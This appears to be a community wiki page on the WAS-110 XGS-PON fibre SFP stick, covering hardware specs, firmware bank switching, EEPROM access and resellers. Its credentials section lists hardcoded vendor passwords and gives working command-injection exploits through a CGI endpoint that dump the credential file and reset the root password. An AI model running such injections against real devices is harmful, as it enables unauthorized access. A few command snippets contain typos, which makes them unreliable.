

# WAS-110 [^1]



!!! warning "Caution: Hot surface"
    It is advisable to provide sufficient cooling. Although temperatures in excess of 60&deg;C are within specification,
    over time they may decrease the product lifespan.

    The 8311 community has produced many active cooling designs to improve overall temperatures.
    Join the [Discord](https://discord.pon.wiki) for additional tips.

## Specifications

|             |                                                          |                      |
| ----------: | -------------------------------------------------------- | -------------------- |
| __SoC__     | PRX126 @ 400 MHz - MIPS interAptiv 34Kc                  | [Architecture] [^10] |
| __NAND__    | 128 MB *(1 Gbit)*                                        | [WN25N01GW]          |
| __RAM__     | 1 GB                                                     | [NT6CL256M32AM]      |
| __BOSA__    | SC/APC - Tx: 1270 nm / Rx: 1577 nm                       | [M02180]             |
| __EEPROM__  | :check_mark:                                             | [M02180]             |
| __UART__    | Rx: pin 7 / Tx: pin 2 - 115200-8-1-N                     |                      |
| __IP__      | [192.168.11.1](https://192.168.11.1/)                    |                      |
| __HTTP(S)__ | :check_mark:                                             | [Web Credentials]    |
| __SSH__     | :check_mark: *Disabled by default (BFW/Azores firmware)* | [Shell Credentials]  |

 [Architecture]: #architecture
 [WN25N01GW]: https://www.winbond.com/hq/product/code-storage-flash-memory/qspinand-flash/?__locale=en&partNo=W25N01GV
 [NT6CL256M32AM]: https://www.nanya.com/en/Product/4324/NT6CL256M32AM-H0
 [M02180]: https://www.macom.com/products/product-detail/M02180
 [Web Credentials]: #web-credentials
 [Shell credentials]: #shell-credentials

## Architecture

### MaxLinear PRX126 [^2]

# --8<-- [start:arch]

# --8<-- [end:arch]

## System Information

### Boot log

```
--8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/bootlog"
```

### procfs [^3]

=== "/proc/cmdline"


    ```
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_cmdline"
    ```

=== "/proc/cpuinfo"


    ```
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_cpuinfo"
    ```

=== "/proc/meminfo"


    ```
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_meminfo"
    ```

=== "/proc/mtd"


    ```
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_mtd"
    ```

### MTDs [^5] [^6] [^7]

# --8<-- [start:mtd]

# --8<-- [end:mtd]

#### Switch banks

!!! warning "Verify image(s) are valid before committing"

Alternate between banks A and B

=== "OpenWrt shell"

    Switch from bank A to B.

    ``` sh
    fw_printenv commit_bank # (1)!
    fw_printenv img_validB # (2)!
    fw_setenv commit_bank B
    fw_setenv commit_bank B
    ```

    1. Verify the committed bank is A.
    2. Verify bank B is valid prior to committing.

    Switch from bank B to A.

    ``` sh
    fw_printenv commit_bank # (1)!
    fw_printenv img_validA # (2)!
    fw_setenv commit_bank A
    fw_setenv commit_bank A
    ```

    1. Verify the committed bank is B.
    2. Verify bank A is valid prior to committing.

=== "U-Boot shell"

    Switch from bank A to B.

    ``` sh
    env print commit_bank # (1)!
    env print img_validB # (2)!
    env set commit_bank B
    env save
    eve save
    ```

    1. Verify the committed bank is A.
    2. Verify bank B is valid prior to committing.

    Switch from bank B to A.

    ``` sh
    env print commit_bank # (1)!
    env print img_validA # (2)!
    env set commit_bank A
    env save
    eve save
    ```

    1. Verify the committed bank is B.
    2. Verify bank A is valid prior to committing.

## EEPROM

The Digital Diagnostic Monitor Interface (DDMI)[^11] is handled by the MACOM [M02180] laser driver over an I2C bus and
within Linux through a virtual EEPROM that takes precedence once the kernel module `mod_sfp_i2c` is loaded and
`/etc/init.d/sfp_eeprom.sh` is started.

There are several interfaces and utilities that provide read and/or write access to the EEPROM(s).

### Read

#### A0 (0x50)

=== "Virtual EEPROM <small>Non-Persistent</small>"

    ``` sh
    sfp_i2c -r -i 0 -l 256
    ```

    ``` sh
    hexdump -Cv /dev/sfp_eeprom0
    ```

=== "Physical EEPROM"

    ``` sh
    hexdump -Cv /sys/class/pon_mbox/pon_mbox0/device/eeprom50
    ```

    ``` sh
    ethtool -m pon0 raw on | head -c 256 | hexdump -Cv
    ```

    ``` sh
    i2cdump -fy 0 0x50
    ```

    ``` sh
    i2cget -fy 0 0x50 0x0
    ```

#### A2 (0x51)

=== "Virtual EEPROM <small>Non-Persistent</small>"

    ``` sh
    sfp_i2c -r -i 256 -l 256
    ```

    ``` sh
    hexdump -Cv /dev/sfp_eeprom1
    ```

=== "Physical EEPROM"

    ``` sh
    hexdump -Cv /sys/class/pon_mbox/pon_mbox0/device/eeprom51
    ```

    ``` sh
    ethtool -m pon0 raw on | tail -c 256 | hexdump -Cv
    ```

    ``` sh
    i2cdump -fy 0 0x51
    ```

    ``` sh
    i2cget -fy 0 0x51 0x0
    ```

### Write

#### Physical EEPROM

!!! warning "Incorrect writes to the EEPROM can prevent the host from recognizing the WAS-110"

The EEPROM is write protected and can be disabled by writing `12345678` to A2 (0x51) at offset `0x7B`.

``` sh
i2cset -fy 0 0x51 0x7B 0x12 0x34 0x56 0x78 i
```

To re-enable write protection, write `00000000` to A2 (0x51) at offset `0x7B`.

``` sh
i2cset -fy 0 0x51 0x7B 0x00 0x00 0x00 0x00 i
```

## Default Credentials

### Web credentials

The default web credentials can be found in `/ptrom/ptconf/param_ct.xml`. Modifications from the web UI are stored in
`/ptrom/ptconf/usrconfig_conf` as base64 encoded strings.

!!! warning "Passwords have a maximum length of 16 characters which are not restricted by the web UI"

??? bug "Exploit to disclose the default web credentials"
    To dump the web credentials from `/ptrom/ptconf/param_ct.xml`, navigate to:

    <http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml>

    Alternatively, run the following command(s) to download `param_ct.xml` to a temporary directory.

    === ":material-microsoft: Windows"


        __Command Prompt__

        ``` sh
        dir %Temp% & curl.exe -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

        __Powershell / Windows Terminal__

        ``` sh
        dir %Temp% ; curl.exe -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":simple-apple: macOS"

        ``` sh
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":simple-linux: Linux"

        !!! note "The following commands assume [Debian] or derivatives[^4]"

        ``` sh
        sudo apt-get install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

=== "Firmware v1.0.21"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | BR#22729%635e9 |
    | user     | user1234       |

=== "Firmware &lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | QsCg@7249#5281 |
    | user     | user1234       |

### Shell credentials

SSH must be enabled from the web UI at <https://192.168.11.1/html/main.html#service/servicecontrol>

???- info "OpenSSH/SSL: unsupported algorithms and changes since 8.8 and newer"

    ``` sh
    ssh -V
    openssl version
    ```

    <https://www.openssh.com/releasenotes.html>

    __Red Hat/CentOS/Fedora/Rocky Linux__

    ``` sh
    sudo update-crypto-policies --set LEGACY
    ```

    ``` sh
    ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.11.1
    ```

=== "Firmware v1.0.21"

    The <ins>root</ins> password is undisclosed at this time, use the suggested exploit below to gain root privileges.

=== "Firmware &lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

??? bug "Exploit to temporarily change the root password"
    Run the following command(s) to temporarily change the root password to `root`.

    === ":material-microsoft: Windows"

        ``` sh
        curl.exe -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":simple-apple: macOS"

        ``` sh
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":simple-linux: Linux"

        !!! note "The following commands assume [Debian] or derivatives[^4]"

        ``` sh
        sudo apt-get install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

## Value-Added Resellers

!!! tip "Participate in [group buys] on the 8311 Discord community server for discounted pricing"
    Pre-flashed with the [8311 community firmware](https://github.com/djGrrr/8311-was-110-firmware-builder) for easy
    setup and the shortest downtime.

      [group buys]: ../../../discord/group-buys.md

| Company                                        | Product Number      | E-commerce                    | Firmware           |
| ---------------------------------------------- | ------------------- | ----------------------------- | ------------------ |
| [Ascent Optics](https://ascentoptics.com/)     | [XSPU-P9T9R-NxCM]   | [Chinese Alibaba] :flag_cn:   | PTXG (Potron)      |
| [Azores Networks](https://azoresnetworks.com/) | XSS                 |                               | BFW/Azores         |
| [DZS](https://dzsi.com/)                       | 5311XP              |                               |                    |
| [E.C.I. Networks](https://ecin.ca/)            | [EN-XGSFPP-OMAC-V2] | :globe_with_meridians:        | BFW/Azores or 8311 |
| [FiberMall](https://www.fibermall.com/)        | [XGSPON-ONU-STICK]  | :globe_with_meridians:        | BFW/Azores         |
| [FEPL](https://ontolt.com/)                    | XGSPON-ONU-STICK    |                               |                    |
| [ZISA](https://zisacom.com/)                   | OP151XGS            | [Alibaba](https://www.alibaba.com/product-detail/New-Arrival-FTTH-Modem-Symmetry-Module_1601389274805.html)                   |               |

* <small>Purchase at your discretion, we take no responsibility or liability for the listed resellers.</small>

  [XSPU-P9T9R-NxCM]: https://ascentoptics.com/product/xgspon-onu-stick.html
  [Chinese Alibaba]: https://detail.1688.com/offer/821866799456.html
  [EN-XGSFPP-OMAC-V2]: https://ecin.ca/custom-xgs-pon-sfp-stick-module-xgspon-ont-w-t-mac-function-mounted-on-sfp-package/
  [XGSPON-ONU-STICK]: https://www.fibermall.com/sale-460693-xgspon-onu-sfp-stick.htm
  [Debian]: https://www.debian.org/

[^1]: <https://www.bfw-solutions.com/en/gpon-family-141>
[^2]: <https://www.maxlinear.com/product/access/fiber-access/socs-for-optical-networking-units-onu/prx126>
[^3]: <https://en.wikipedia.org/wiki/Procfs>
[^4]: <https://www.debian.org/derivatives/>
[^5]: <https://en.wikipedia.org/wiki/Memory_Technology_Device>
[^6]: <https://en.wikipedia.org/wiki/UBIFS>
[^7]: <https://en.wikipedia.org/wiki/SquashFS>
[^10]: <https://boxmatrix.info/wiki/Property:Falcon>
[^11]: [SFF-8472](https://members.snia.org/document/dl/25916)
